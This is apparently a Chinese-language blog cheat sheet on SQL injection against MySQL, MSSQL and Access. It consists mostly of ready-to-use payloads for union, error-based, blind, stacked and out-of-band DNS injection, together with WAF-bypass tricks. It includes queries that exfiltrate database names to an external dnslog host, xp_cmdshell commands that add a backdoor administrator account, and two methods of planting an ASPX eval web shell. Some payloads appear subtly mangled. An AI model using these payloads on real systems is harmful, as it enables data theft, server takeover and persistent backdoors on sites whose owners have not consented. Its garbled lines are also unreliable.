

## 一、sql注入概述

SQL注入即是指web应用程序对用户输入数据的合法性没有判断或过滤不严，攻击者可以在web应用程序中事先定义好的查询语句的结尾上添加额外的SQL语句，在管理员不知情的情况下实现非法操作，以此来实现欺骗数据库服务器执行非授权的任意查询，从而进一步得到相应的数据信息,在实战和测试中，难免会遇见到一些sql注入，下面，我将总结一些常用sql注入中的不同姿势。

## 二、寻找sql注入

测试注入点：

1. 在参数后面添加单引号或双引号，查看返回包，如果报错或者长度变化，可能存在Sql注入

注入点判断：`id=1'（常见）id=1" id=1') id=1')) id=1") id=1"))`

2. 通过构造get、post、cookie请求再相应的http头信息等查找敏感喜喜

3. 通过构造一些语句，检测服务器中响应的异常

## 三、sql注入的类型

### 普通注入

数字型：

测试步骤：

1. 加`'`，URL：`?id=3'`

对应的sql：`select \* from table where id=3'`这时sql语句出错，程序无法正常从数据库中查询出数据，就会抛出异常；

2. 加`and 1=1` ，URL：`?id=3) and 1=1`

对应的sql：`select \* from table where id=3' and 1=1`语句执行正常，与原始页面没有差异；

3. 加`and 1=2`，URL：`?id=3) and 1=2`

对应的sql：`select \* from table where id=3 and 1=2`语句可以正常执行，但是无法查询出结果，所以返回数据与原始网页存在差异；

字符型

测试步骤：

（1） 加单引号：`select \* from table where name='admin''`

由于加单引号后变成三个单引号，则无法执行，程序会报错；

（2） 加`' and 1=1`此时sql 语句为：`select \* from table where name='admin' and 1=1'`，也无法进行注入，还需要通过注释符号将其绕过；

因此，构造语句为：`select \* from table where name ='admin' and 1=--'` 可成功执行返回结果正确；

（3） 加`and 1=2—` 此时sql语句为：`select \* from table where name='admin' and 1=2–'`则会报错；

如果满足以上三点，可以判断该url为字符型注入。

判断列数：

`?id=1' order by 4#` 报错

`?id=1' order by 3#` 没有报错，说明存在3列

爆出数据库：

`?id=-1' union select 1,database(),3--+`

`?id=-1' union select 1,group\_concat(schema\_name),3 from information\_schema.schemata#`

爆出数据表：

`?id=-1' union select 1,group\_concat(table\_name),3 from information\_schema.tables where table\_schema='数据库'#`

爆出字段：

`?id=-1' union select 1,group\_concat(column\_name),3 from information\_schema.columns where table\_name='数据表'#`

爆出数据值：

`?id=-1' union select 1,group\_concat(0x7e,字段,0x7e),3 from 数据库名.数据表名--+`

**拓展一些其他函数：**

> system\_user() 系统用户名
>
> user() 用户名
>
> current\_user 当前用户名
>
> session\_user()连接数据库的用户名
>
> database() 数据库名
>
> version() MYSQL数据库版本
>
> load\_file() MYSQL读取本地文件的函数
>
> @@datadir 读取数据库路径
>
> @@basedir MYSQL 安装路径
>
> @@version\_compile\_os 操作系统
>
> 多条数据显示函数：
>
> concat()、group\_concat()、concat\_ws()

### 报错注入

extractvalue函数：

`?id=1' and extractvalue(1, concat(0x7e,(select @@version),0x7e))--+ (爆出版本号)`

`?id=1' and extractvalue(1, concat(0x7e,(select @@version\_compile\_os),0x7e))--+ (爆出操作系统)`

`?id=1' and extractvalue(1, concat(0x7e,(select schema\_name from information\_schema.schemata limit 5,1),0x7e))--+` （爆数据库）

`?id=1' and extractvalue(1, concat(0x7e,(select table\_name from information\_schema.tables where table\_schema='security' limit 3,1),0x7e))--+` （爆数据表）

`?id=1' and extractvalue(1, concat(0x7e,(select column\_name from information\_schema.columns where table\_name='users' limit 3,1),0x7e))--+`（爆字段）

`?id=1' and extractvalue(1, concat(0x7e,(select concat(id,0x7e,username,0x7e,password) from security.users limit 7,1),0x7e))--+` （爆数据）

updatexml函数：

> 细节问题： extractvalue()基本一样，改个关键字`updatexml`即可,与extractvalue有个很大的区别实在末尾注入加上，如：`（1，concat(select @@version),1),而extractvalue函数末尾不加1`（数值）

`?id=1' and updatexml(1, concat(0x7e,(select schema\_name from information\_schema.schemata limit 5,1),0x7e),**1**)--+` （爆数据库）

`?id=1' and updatexml(1, concat(0x7e,(select table\_name from information\_schema.tables where table\_schema=database() limit 3,1),0x7e),1)--+` （爆数据表）

`?id=1' and updatexml(1, concat(0x7e,(select column\_name from information\_schema.columns where table\_name='users' limit 3,1),0x7e),1)--+` （爆字段）

`?id=1' and updatexml(1, concat(0x7e,(select concat(id,0x7e,username,0x7e,password) from security.users limit 7,1),0x7e),1)--+`

exp函数溢出错误：

`exp(~(select * from(select * from flag))a))`

在mysql>5.5.53时，则不能返回查询结果

floor函数：

`?id=1' union select 1,count(),concat(0x7e,(select database()),0x7e,floor(rand(0)2))a from information\_schema.schemata group by a--+`

`?id=1' union select 1,count(),concat(0x7e,(select schema\_name from information\_schema.schemata limit 5,1),0x7e,floor(rand(0)2))a from information\_schema.columns group by a--+` (爆数据库，不断改变limit得到其他)

`?id=1' union select 1,count(),concat(0x7e,(select table\_name from information\_schema.tables where table\_schema='security' limit 3,1),0x7e,floor(rand(0)2))a from information\_schema.columns group by a--+` （爆出users表）

`?id=1' union select 1,count(),concat(0x7e,(select column\_name from information\_schema.columns where table\_name='users' limit 5,1),0x7e,floor(rand(0)2))a from information\_schema.columns group by a--+` （爆出password字段）

`?id=1' union select 1,count(),concat(0x7e,(select password from security.users limit 2,1),0x7e,floor(rand(0)2))a from information\_schema.columns group by a--+` （爆出数值）

### 延时注入

判断注入点：

`?id=1' and sleep(5)--+` //正常休眠

`?id=1" and sleep(5)--+` //无休眠

`?id=1') and sleep(5)--+`//无休眠

`?id=1") and sleep(5)--+`//无休眠

`?id=1' and if(length(database())=8,sleep(10),1)--+`

爆出数据库：

`?id=1' and if(ascii(substr(database(),1,1))=115,1,sleep(10))--+`

通过判断服务器没有睡眠，ascii码转换115为s ，那么就得出数据库第一个字符为s,下面就可以一次类推了,就不一

`substr(database(),N,1)`可以通过改变N的值来判断数据的地几个字符为什么

爆出数据表：

`?id=1' and if((select ascii(substr((select table\_name from information\_schema.tables where table\_schema="security"limit 0,1),1,1)))=101,sleep(5),1)-- -`

解释：security的第一张表的第一个字符ascii为101，为字符e

limit 0,1),N,1还是改变N的的得出第二个字符

再判断字符（ascii判断）

`?id=1" and if(ascii(substr(database(),1,1))>115,1,sleep(3))--+`

（left语句判断）

`?id=1' and if(left(database(),1)='s',sleep(10),1) --+`

`?id=1' and if(left(database(),2)='sa',sleep(10),1) --+`

Substring函数判断

`type=if(substring((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1,1='a'),11111,sleep(1))--+`

附上一篇文档（盲注脚本）：[https://blog.csdn.net/weixin\_41598660/article/details/105162513](https://blog.csdn.net/weixin_41598660/article/details/105162513)

### 布尔注入

Left判断

`?id=1' and left(database(),1)='s' --+`

`?id=1' and left(database(),2) > 'sa' --+`

Like语句判断

`?id=1' and (select table\_name from information\_schema.tables where table\_schema=database() limit 0,1)like 'e%'--+`

Ascii语句判断

`and ascii(substr((select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),1,1))=115--+`

### 堆叠注入

`?id=1' order by 3%23`

`?id=1';show tables%23`

`?id=-1';show columns from 1919810931114514%23`

`?id=1'; insert into users(id,username,password) values(88,'aaa','bbb')#`

### Dnslog对外注入

通常我们面对SQL注入过程中没有回显的情况下，只能通过盲注的方式来判断是否存在SQL注入，但是，使用盲注，手工测试是需要花费大量的时间的，可能会想到使用sqlmap直接去跑出数据，但在实际测试中，使用sqlmap跑盲注，有很大的几率，网站把ip给封掉，这就影响了我们的测试进度，也许你也可以使用代理池

注入语句：

`?id=1' and (select load\_file(concat('\\\\',(select hex(user())),'.[http://682y4b.dnslog.cn/abc](http://682y4b.dnslog.cn/abc)'))) --+`

`?id=1' and (select load\_file(concat('\\\\',(select database()),'.[http://682y4b.dnslog.cn/abc](http://682y4b.dnslog.cn/abc)'))) --+`

### 中转注入

比如受害者网站URL注入点是经过编码的，不能直接结合sqlmap进行漏洞利用，所以本地搭建一个网站，写一个php脚本编码文件，就可以结合sqlmap工具进行测试。

因为，注入点经过复杂编码之后，就不能直接结合sqlmap进行漏洞攻击了。或者sqlmap自己编写tamper脚本进行攻击

可参考：[https://blog.csdn.net/weixin\_40412037/article/details/110088186](https://blog.csdn.net/weixin_40412037/article/details/110088186)

### 搜索框注入

注入payload：

`%' and '%1%'='%1`

`%' and '%1%'='%2`

Sql数据库语句：select \* from sqltest where names like '%要查询的关键字%'

`a%’ and 1=1–` 正常

`a%’ and 1=2–` 错误

有搜索数据的框可以试试加个%总能大力出奇迹

### 宽字节注入

前提

1. 使用了addslashes()函数

2. 数据库设置了编码模式为GBK

原理：前端输入%df时，首先经过addslashes()转义变成%df%5c%27，之后，在数据库查询前，因为设置了GBK编码，GBK编码在汉字编码范围内的两个字节都会重新编码成一个汉字。然后mysql服务器会对查询的语句进行GBK编码，%df%5c编码成了“运”，而单引号逃逸了出来，形成了注入漏洞

`?id=%df' and 1=1 --+`

`?id=%df' and 1=2 --+`

`?id=-1%df' union select 1,2,3 %23`

### Cookie注入和Xff注入

主要是看看程序员有没有在cookie中做了一些过滤，我们有没有可趁之机。

Cookie: `' order by 4--+`

X-Forwarded-For注入

代表客户端真实的IP，通过修改X-Forwarded-for的值可以伪造客户端IP

尝试抓包添加插入X-Forwarded-For:127.0.0.1头进行sql注入

### Between注入

主要用于盲注看页面是否有变化，原理如下，例如username的字符内容是test1，第一个字符是t，a到b搜索不了，页面不正常。 a到t就有了，页面正常

mysql语句： `select \* from users where id =1 and substr(username,1,1) between 'a' and 'b';`

`select \* from users where id =1 and substr(username,1,1) between 'a' and 't';`

### limit注入

mysql语句： select \* from limit test limit 1,\[可控点\] or select ... limit \[可控点\]

limit后面能够拼接的函数只有into和procedure，into可以用来写文件，本文我们不考虑。在Limit后面 可以用 procedure analyse()这个子查询，而且只能用extractvalue 和 benchmark 函数进行延时

`procedure analyse(updatexml(rand(),concat(0x3a,benchmark(10000000,sha1(1)))),1)`

`select id from users;`

`select id from users limit 0,1 union select username from users;`

`select field from user where id >0 order by id limit 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);`

## Sql注入绕过姿势

### 绕过空格

两个空格代替一个空格，用Tab代替空格，%a0=空格：

payload:

`%20 %09 %0a %0b %0c %0d %a0 %00 /\*\*/ /*!*/`

最基本的绕过方法，用注释替换空格： /\* 注释 \*/


括号绕过空格

mysql语句：`select(user())from dual where(1=1)and(2=2)`

这种过滤方法常常用于time based盲注,例如：

`?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23`

### 绕过引号

这个时候如果引号被过滤了，那么上面的where子句就无法使用了。那么遇到这样的问题就要使用**十六进制**来处理这个问题了。users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：

`select column\_name from information\_schema.tables where table\_name=0x7573657273`

### 绕过逗号

在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。对于substr()和mid()这两个方法可以使用from to的方式来解决：

`select substr(database() from 1 for 1);`

`select mid(database() from 1 for 1);`

使用`join`：

`union select 1,2#`

等价于 `union select \* from (select 1)a join (select 2)b`

使用`like`:

`select ascii(mid(user(),1,1))=80 #`

等价于 `select user() like 'r%'`

对于limit可以使用offset来绕过：

`select \* from news limit 0,1 #`

等价于下面这条SQL语句 `select \* from news limit 1 offset 0`

### 绕过比较符号()

（过滤了<>：sqlmap盲注经常使用<>，使用between的脚本）：

使用`greatest()、least()`：（前者返回最大值，后者返回最小值）

同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到greatest来进行绕过了。 最常见的一个盲注的sql语句：

`select \* from users where id=1 and ascii(substr(database(),0,1))>64`

此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用greatest来代替比较操作符了。greatest(n1,n2,n3,…)函数返回输入参数(n1,n2,n3,…)的最大值。 那么上面的这条sql语句可以使用greatest变为如下的子句:

`select \* from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64`

### Between注入

主要用于盲注看页面是否有变化，原理如下，例如username的字符内容是test1，第一个字符是t，a到b搜索不了，页面不正常。 a到t就有了，页面正常


使用`between and:`

使用`between and:`

`between a and b：`

between 1 and 1; 等价于 =1

### or and xor not绕过：

`and=&& or=|| xor=| not=!`

### 绕过注释符

（#，–(后面跟一个空格））过滤：

`id=1' union select 1,2,3||'1`

最后的or '1闭合查询语句的最后的单引号，或者：

`id=1' union select 1,2,'3`

### 绕过等于号

使用like 、rlike 、regexp 或者 使用< 或者 >

### 绕过union，select，where等：

（1）使用注释符绕过：

常用注释符：//，-- , /\*\*/, #, --+, -- -, ;,%00,--a`

用法：U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user

（2）使用大小写绕过：

`id=-1'UnIoN/\*\*/SeLeCT`

（3）内联注释绕过：

`id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table\_name*/) FrOM /*information\_schema*/.tables /*!WHERE* *//!TaBlE\_ScHeMa*/ like database()#`

（4） 双关键字绕过（若删除掉第一个匹配的union就能绕过）：

`id=-1'UNIunionONSeLselectECT1,2,3–-`

## Sql注入Bypass

### WAF绕过-应用层

Sql绕过姿势：[https://www.csdn.net/tags/MtTaEgwsMTU4NzM1LWJsb2cO0O0O.html](https://www.csdn.net/tags/MtTaEgwsMTU4NzM1LWJsb2cO0O0O.html)

### 大小写/关键字替换

+   id=1UnIoN/\*\*/SeLeCT1,user()
+   Hex() bin() 等价于 ascii()
+   Sleep() 等价于 benchmark()
+   Mid() substring() 等价于substr()
+   @@user 等价于 User()
+   @@Version 等价于 version()

绕过：

> AND -> &&
>
> OR -> || / ^
>
> \= -> LIKE,REGEXP, BETWEEN, not < and not >，!<>
>
> X -> not between 0 and X
>
> WHERE -> HAVING
>
> 手工盲注 1'||ascii(substr(database(),2,1))>='120

### 各种编码

大小写，URL，hex，%0A等

### 注释使用

//----+#//+:%00/!/等

### 再次循环

union==uunionnion

### 分块传输

比如在burp抓包时，存在Post请求的注入，如id=1' and 1=2#

尝试分块传输




进行分块传输的时候，请求头要加上**Transfer-Encoding: Chunked**，然后POST的数据规则如下

2 # 下面的数据的长度，可以在后面加个分号然后添加注释（2; hello world） id # 请求的参数 2  # 下面的数据的长度 =1 # 请求的值，和前面的id连起来 0 # 表明分块请求结束，一个0和两个换行

最后就是大佬写出的插件，安装了一键分块Orz  
[https://github.com/c0ny1/chunked-coding-converter](https://github.com/c0ny1/chunked-coding-converter)

### 等价替换

hex()、bin() ==> ascii()  
sleep() ==>benchmark()  
concat\_ws()==>group\_concat()  
mid()、substr() ==> substring()  
@@user ==> user()  
@@datadir ==> datadir()  
举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74  
或者：  
substr((select 'password'),1,1) = 0x70  
strcmp(left('password',1), 0x69) = 1  
strcmp(left('password',1), 0x70) = 0  
strcmp(left('password',1), 0x71) = -1

### 参数污染

?id=1&id=2&id=3

### 编码解码及加密解密

+   s->%73->%25%37%33
+   hex,unlcode,base64等

### 更改请求提交方式

尝试更改Get请求为Post请求

+   GET POST COOKIE等
+   POST->multipart/form-data

### 中间件HPP(HTTP参数污染)


**HPP**是HTTP Parameter Pollution的缩写，意为HTTP参数污染。

+   原理：浏览器在跟服务器进行交互的过程中，浏览器往往会在GET/POST请求里面带上参数，这些参数会以 名称-值 对的形势出现，通常在一个请求中，同样名称的参数只会出现一次。但是在HTTP协议中是允许同样名称的参数出现多次的。比如下面这个链接：[http://www.baidu.com](http://www.baidu.com/)?name=aa&name=bb，针对同样名称的参数出现多次的情况，不同的服务器的处理方式会不一样。有的服务器是取第一个参数，也就是name=aa。有的服务器是取第二个参数，也就是name=bb。有的服务器两个参数都取，也就是name=aa,bb 。这种特性在绕过一些服务器端的逻辑判断时，非常有用。
+   HPP漏洞，与Web服务器环境、服务端使用的脚本有关。如下是不同Web服务器对于出现多个参数时的选择
+   通过HPP接管账户,当网站开发者不熟悉Web服务器对于多参数时如何选择，将给攻击者可乘之机。HPP能针对客户端和服务端进行攻击。
+   HPP参数污染还可以用于绕过某些防火墙对于 SQL注入的检测，例如当Web服务器对多参数都同时选择时，我们可以用以下这种方式绕过某些防火墙：

`http://www.test.com/index.asp?page=select) 1,2,3 from table where id=1`
`http://www.test.com/index.asp?page=select) 1&page=2,3 from table where id=1`

HTTP参数污染是指当同一参数出现多次，不同的中间件会解析为不同的结果,以参数color=red&color=blue为例

### WAF绕过-数据库特性

mysql注释符有三种

+   #,/.../,--...(注意--后面有一个空格，或者为--+)

空格符

+   0x09,0x0a-0x0d,0x20,0xa0

特殊符号：%a换行符

+   可结合注释符使用%23%0a,%2d%2d%0a

内联注释

+   /!UnIon12345SelEcT/1,user(),数字范围1000-50540

mysql黑魔法

+   select{xusername}from{x11test.admin};

### WAF绕过-逻辑层

逻辑问题

1.  云waf防护，一般我们会尝试通过查找站点的真实IP，从而绕过CDN防护。
2.  当提交GET、POST同时请求时，进入POST逻辑，而忽略了GET请求的有害参数输入,可尝试Bypass。
3.  HTTP和HTTPS同时开放服务，没有做HTTP到HTTPS的强制跳转，导致HTTPS有WAF防护，HTTP没有防护，直接访问HTTP站点绕过防护。
4.  特殊符号%00，部分waf遇到%00截断，只能获取到前面的参数，无法获取到后面的有害参数输入，从而导致Bypass。比如：id=1 %00 and 1=2 union select 1,2,column\_name from information\_schema.columns

性能问题

+   猜想1：在设计WAF系统时，考虑自身性能问题，当数据量达到一定层级，不检测这部分数据。只要不断的填充数据，当数据达到一定数目之后，恶意代码就不会被检测了。
+   猜想2：不少WAF是C语言写的，而C语言自身没有缓冲区保护机制，因此如果WAF在处理测试向量时超出了其缓冲区长度就会引发bug，从而实现绕过。

例子1：

?id=1and(select1)=(Select0xA\*1000)+UnIoN+SeLeCT+1,2,version(),4,5,database(),user(),8,9

+   0xA\*1000指0xA后面A重复1000次，一般来说对应用软件构成缓冲区溢出都需要较大的测试长度，这里1000只做参考也许在有些情况下可能不需要这么长也能溢出。

例子2：

?a0=0&a1=1&.....&a100=100&id=1  
union  
select  
1,schema\_name,3  
from  
INFORMATION\_SCHEMA.schemata

+   获取请求参数，只获取前100个参数，第101个参数并没有获取到，导致SQL注入绕过。

白名单

+   方式一：IP白名单
+   从网络层获取的ip，这种一般伪造不来，如果是获取客户端的IP，这样就可能存在伪造IP绕过的情况。测试方法：修改http的header来bypasswaf

X-forwarded-for  
X-remote-IP  
X-originating-IP  
x-remote-addr  
X-Real-ip

方式二：静态资源

+   特定的静态资源后缀请求，常见的静态文件(.js.jpg.swf.css等等)，类似白名单机制，waf为了检测效率，不去检测这样一些静态文件名后缀的请求。
+   Aspx/php只识别到前面的.aspx/.php后面基本不识别

[http://10.9.9.201/sql.php?id=1](http://10.9.9.201/sql.php?id=1)  
[http://10.9.9.201/sql.php/1.js?id=1](http://10.9.9.201/sql.php/1.js?id=1)

方式三：url白名单

+   为了防止误拦，部分waf内置默认的白名单列表，如admin/manager/system等管理后台。只要url中存在白名单的字符串，就作为白名单不进行检测。常见的url构造姿势

学习文章：[https://mp.weixin.qq.com/s/gjEPi8DKVsfGyEv8fnzY3Q](https://mp.weixin.qq.com/s/gjEPi8DKVsfGyEv8fnzY3Q)

## Sqlserver注入（mssql）

**SQL Server**数据库是由Microsoft开发和推广的关系数据库管理系统(DBMS)，是一个比较大型的数据库。端口号为 **1433**。数据库后缀名 .mdf，注释符是 -- 。延时命令：WAITFOR DELAY '0:0:2'

**SQLServer有三个权限级别：**

+   sa权限：数据库操作，文件管理，命令执行，注册表读取等system。SQLServer数据库的最高权限
+   db权限：文件管理，数据库操作等权限 users-administrators
+   public权限：数据库操作 guest-users


判断是否是SA权限(数据库操作、文件管理、命令执行、注册表读取)

1.  select is\_srvrolemember('sysadmin')

判断是否是db\_owner权限 (数据库操作、文件管理)

1.  select is\_member('db\_owner')

判断是否是public权限 (数据库操作)

1.  select is\_srvrolemember('public')

SQLServer数据库有6个默认的库，分别是4个系统数据库：master 、model 、msdb 、tempdb，和2个实例数据库：ReportServer、ReportServerTempDB。其中，系统数据库 model 和 tempdb 默认是没有数据表的。

附上payload：

select @@version; # 查询数据库的版本

select @@servername; # 查询服务名

select host\_name(); # 查询主机名，如果是用navicat远程连接的话，主机名是本地的名字

select db\_name(); # 查询当前数据库名

select db\_name(1); # 查询第一个数据库名

select db\_name(2); # 查询第二个数据库名

select user; # 查询当前数据库的拥有者，结果为 dbo。dbo是每个数据库的默认用户，具有所有者权限，全称：datebaseOwner ，即DbOwner

use tempdb # 切换到tempdb表

top n # 查询前n条记录

limit 2,3 # 查询第2条开始的3条数据，也就是2,3,4

select substring('string',2,1) # 截取给定字符串的索引为2的1个字符

select ascii('a') # 查询给定字符串的ascii值

select len('string') # 查询给定字符串的长度

EXEC sp\_spaceused @updateusage = N'TRUE'; # 查询当前数据库的大小

sp\_spaceused '表名' # 查询指定表名的大小

EXEC master.sys.xp\_dirtree '\\192.168.106.5\\xx.txt',0,1;

判断是否是SA权限

select is\_srvrolemember('sysadmin')

判断是否是db\_owner权限

select is\_member('db\_owner')

判断是否是public权限

select is\_srvrolemember('public')

### 普通注入

order by 2 成功；order by 3 失败； order by 4 成功；order by 5 失败 说明列数位于 3-4之间。查找回显点

id=2 and 1=2 union all select null,null,null,null；挨个替换null 发现 select null,2,null,null 页面出现回显。

查找所在库名称添加： ?id=2 and 1=2 union all select 1,(select db\_name()), '3', 4

找到数据库名称。 提示：这里也可以使用db\_name(1)、db\_name(2)等查询其他数据

查找数据库表名称：?id=2 and 1=2 union all select 1,(select top 1 name from mozhe\_db\_v2.dbo.sysobjects where xtype = 'U'),'3',4提示: xtype='U' 为 用户表

?id=2 and 1=2 union all select 1,(select top 1 col\_name(object\_id('manage'),1) from sysobjects),'3',4替换 col\_name(object\_id('manage'),1) 中的1 依次为 2，3，4查出所有列名。

查取数据: ?id=2 and 1=2 union all select 1,(select top 1 username from manage),'3',4 获取用户名；

?id=2 and 1=2 union all select 1,(select top 1 password from manage),'3',4 获取密码

## 全回显操作

获取当前数据库中的表（有2个语句可供选择使用）【下列语句可一次爆数据库所有表（只限于mssql2005及以上版本）】

(select quotename(name) from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--

(select '|'%2bname%2b'|' from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--

案例： mozhe\_dbv2是数据库名字


一次爆指定表的所有列（只限于mssql2005及以上版本）：

(select quotename(name) from 数据库名..syscolumns where id =(select id from 数据库名..sysobjects where name='指定表名') FOR XML PATH(''))--

(select '|'%2bname%2b'|' from 数据库名..syscolumns where id =(select id from 数据库名..sysobjects where name='指定表名') FOR XML PATH(''))—

案例： mange是表名  


### 报错注入

and 1=(select @@VERSION) //**MSSQL**版本

And 1=(select db\_name()) //当前数据库名

and 1=(select @@servername) //本地服务名

and 1=(select IS\_SRVROLEMEMBER('sysadmin')) //判断是否是系统管理员sa

常用权限：sysadmin、serveradmin、setupadmin、securityadmin、diskadmin、bulkadmin

and 1=(Select IS\_MEMBER('db\_owner')) //判断是否是库权限dbo

and 1= (Select HAS\_DBACCESS('master')) //判断是否有库读取权限

### (2)单个爆破：

and 1=convert(int,(select top 1 table\_name from information\_schema.tables ))—获取第一个表名

and 1=convert(int,(select top 1 table\_name from information\_schema.tables where table\_name not in('photoGalary') )) 获取第二个表名

and 1=convert(int,(select top 1 column\_name from information\_schema.columns where table\_name='login' ))— 获取第一个列名

and 1=convert(int,(select top 1 username from login ))

and 1=convert(int,(select top 1 password from login ))

### (2)全爆语句

爆表，要求sqlserver版本2005以上

and 1=(select quotename(name) from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--  
and 1=(select '|'%2bname%2b'|' from 数据库名..sysobjects where xtype='U' FOR XML PATH(''))--

爆列

and 1=(select quotename(name) from 数据库名..syscolumns where id =(select id from 数据库名..sysobjects where name='指定表名') FOR XML PATH(''))--  
and 1=(select '|'%2bname%2b'|' from 数据库名..syscolumns where id =(select id from 数据库名..sysobjects where name='指定表名') FOR XML PATH(''))—

### 时间注入

aspx?id=1;if (select IS\_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5' –

如果是sa权限，就延时。

案例：


判断内容

aspx?id=1;if (ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)))>1 WAITFOR DELAY '0:0:5'--

### 布尔盲注

1.aspx?id=1 and ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)) >= 109

### XP\_CMDSHELL检测

看下目标的xp\_cmdshell存储过程是否还在,主要是想看它有没有被删掉,你也可以用这种方式来查询其它你想知道的任何存储过程，如果判断还在，页面显示正常，不在的话页面报错。

and 1=(select count(\*) from master..sysobjects where xtype = 'x' and name = 'xp\_cmdshell') –

开启xpcmdshell一句话。前提 1、支持堆叠 2、扩展存储过程没被删除

EXEC sp\_configure 'show advanced options', 1;RECONFIGURE;EXEC sp\_configure 'xp\_cmdshell', 1;RECONFIGURE;

前提：sa权限探测是否存在1433端口。然后检测是否开启CMDSHELL

用XP\_CMDSHELL添加用户hacker：

exec master..xp\_cmdshell "whoami"

asp?id=3;exec master.dbo.xp\_cmdshell 'net user hacker 123456 /add'

XP\_CMDSHELL把用户hacker加到ADMIN组：

asp?id=3;exec master.dbo.xp\_cmdshell 'net localgroup administrators hacker /add'

学习的文档：[https://www.lagou.com/lgeduarticle/38721.html](https://www.lagou.com/lgeduarticle/38721.html)

[https://www.cnblogs.com/vigarbuaa/p/3371500.html](https://www.cnblogs.com/vigarbuaa/p/3371500.html)

[https://www.cnblogs.com/cnjava/archive/2012/06/13/2547524.html](https://www.cnblogs.com/cnjava/archive/2012/06/13/2547524.html)

[https://blog.csdn.net/weixin\_34319999/article/details/92479895](https://blog.csdn.net/weixin_34319999/article/details/92479895)

## 拿shell方法

前提：

1具备sa或者dbo权限

2web目录的绝对路径 （可以利用xp\_cmdshell的方式寻找绝对路径，插个眼）

### (1)xp\_cmdshell拿shell

1.aspx?id=1;exec master..xp\_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item\["pass"\],"unsafe");%^> > c:\\WWW\\aufeng.aspx' ;

### (2)差异备份拿shell

大概思路：

假设：[http://xxxxx/show.aspx?code=1](http://xxxxx/show.aspx?code=1)

中的code参数存在注入点 并且获得数据库名字为abc 爆出了物理路径为e:\\xampp\\htdocs\\dvwa\\

(1) 修改数据库设置为恢复模式

[http://xxxxx/show.asp?code=1](http://xxxxx/show.asp?code=1)';alter database abc set RECOVERY FULL –

完全恢复模式是默认的恢复模式。在完全恢复模式下，需要手工的对事务日志进行管理，优点是可以恢复到数据库失败或者指定的时间点上。

(2) 备份当前数据库日志到文件

[http://xxxxx/show.aspx?code=1](http://xxxxx/show.aspx?code=1)';backup log abc to disk=‘e:\\xampp\\htdocs\\dvwa’ with init –

备份数据库日志到服务器上，其中路径是网页的物理路径。

(3) 建立一张表和一个字段

[http://xxxxx/show.aspx?code=1](http://xxxxx/show.aspx?code=1)';create table tt(a text) –

(4) 往表中插入一句话马子

[http://xxxxx/show.asp?code=1](http://xxxxx/show.asp?code=1)';insert into tt(a) values(’<%eval request(“abc”) %>’) –

values中的内容一般转换为马子的hex值。

(5) 再次备份日志

[http://xxxxx/show.asp?code=1](http://xxxxx/show.asp?code=1)';backup log ahykd\_new to disk=‘e:\\xampp\\htdocs\\dvwa\\1.aspx’ –

再次备份日志，备份路径为网站服务器的物理路径

(6) 删除表

[http://xxxxx/show.aspx?code=1](http://xxxxx/show.aspx?code=1)';drop table tt –

然后菜刀尝试连接[http://xxxxx/1.aspx](http://xxxxx/1.aspx)

参考文章：这里是借鉴大佬的笔记的总结

[https://www.yuque.com/aufeng/aufeng\_good/iganif#Q5PqT](https://www.yuque.com/aufeng/aufeng_good/iganif#Q5PqT)

[https://www.cnblogs.com/vigarbuaa/p/3371500.html](https://www.cnblogs.com/vigarbuaa/p/3371500.html)

## Access注入

Access数据库没有记录所有表名和列名的表，也就意味着我们需要依靠字典进行猜解表名和列

Access数据库中没有注释符号.因此 /\*\*/ 、 -- 和 # 都没法使用。

sqlmap语句：python sqlmap.py -u "[http://test.com/1.asp?id=1](http://test.com/1.asp?id=1)" --tables

### 普通注入

判断注入点

在参数后面加 单引号

http://www.example.com/new\_list.asp?id=1' # 页面报错

http://www.example.com/new\_list.asp?id=1 and 1=1 # 页面正常

http://www.example.com/new\_list.asp?id=1 and 1=2 # 页面报错

猜字段： 1 order by 4 报错 1 order by 3 正确

### 有回显：

?id=-1 union select 1,2,3,4,5,6,7,8,9,10 from admin（此时页面有显示2、3）

查列：and exists (select 列名 from 表名) （假设存在user、password）

?id=3 and exists (select \* from test)

?id=3 and exists (select \* from admin)

?id=3 and exists (select name from admin) 报错，说明不存在

?id=3 and exists (select username from admin) 说明存在username

?id=3 and exists (select password from admin) 说明存在password

